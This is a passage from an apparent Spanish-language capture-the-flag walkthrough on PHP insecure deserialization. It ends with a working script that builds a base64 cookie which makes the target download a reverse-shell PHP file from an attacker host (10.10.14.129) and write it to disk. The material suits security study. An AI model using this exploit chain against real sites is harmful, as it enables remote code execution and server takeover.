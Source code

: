 ```php
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
?>
```

Vemos que determina el tema seleccionado por medio de la cookie `user-prefs` que está encodeada en **base64**.

Al decodificarla obtenemos un objeto serializado de **php**.

`O:9:"UserPrefs":1:{s:5:"theme";s:5:"light";}`

Al momento de utilizar la función `get_theme()` deserializa el objeto. Esto es vulnerable.

[Explicación php deserialization (inglés)](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)

En resumidas cuentas, si la class del objeto serializado implementa algún método llamado `__wakeup()` o `__destruct()`, esos métodos se ejecutarán al momento de deserializar el objeto.
En nuestro caso, tenemos dos clases **Avatar** y **AvatarInterface**. La de **AvatarInterface** tiene el método `__wakeup()` que necesitamos.

Lo que hace es, instancia el objeto **Avatar** pasándole un `imgPath`, este va a crear el archivo con el nombre del valor del `imgPath`. Después, va a guardar lo que le pasemos en `tmp`.

Con el siguiente script, crearemos unas cookies para explotar el **php deserialization attack**

```php
<?php
class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath;

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$avatarObject = new AvatarInterface;
$avatarObject->tmp = "http://10.10.14.129/revShellTnr1112.php";
$avatarObject->imgPath = "revShellTnr1112.php";

echo(base64_encode(serialize($avatarObject)));
?>
```
